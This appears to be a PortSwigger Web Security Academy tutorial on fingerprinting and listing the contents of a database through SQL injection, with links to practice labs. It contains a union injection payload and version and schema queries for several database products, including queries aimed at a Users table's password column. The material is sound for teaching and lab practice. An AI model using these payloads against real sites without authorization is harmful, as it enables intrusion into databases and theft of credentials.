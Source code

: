 # Examining the database in SQL injection attacks

To exploit [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerabilities, it's often necessary to find information about the database. This includes:

- The type and version of the database software.
- The tables and columns that the database contains.

## Querying the database type and version

You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

The following are some queries to determine the database version for some popular database types:

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

For example, you could use a `UNION` attack with the following input:

```sql
' UNION SELECT @@version--
```

This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:

```sql
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

##### **LAB**

[SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

##### **LAB**

[SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

## Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query `information_schema.tables` to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```

This returns output like the following:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

This returns output like the following:

```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

This output shows the columns in the specified table and the data type of each column.

##### **LAB**

[SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

### Listing the contents of an Oracle database

On Oracle, you can find the same information as follows:

- You can list tables by querying `all_tables`:

  ```sql
  SELECT * FROM all_tables
  ```

  

- You can list columns by querying `all_tab_columns`:

  ```sql
  SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
  ```

##### **LAB**

[SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
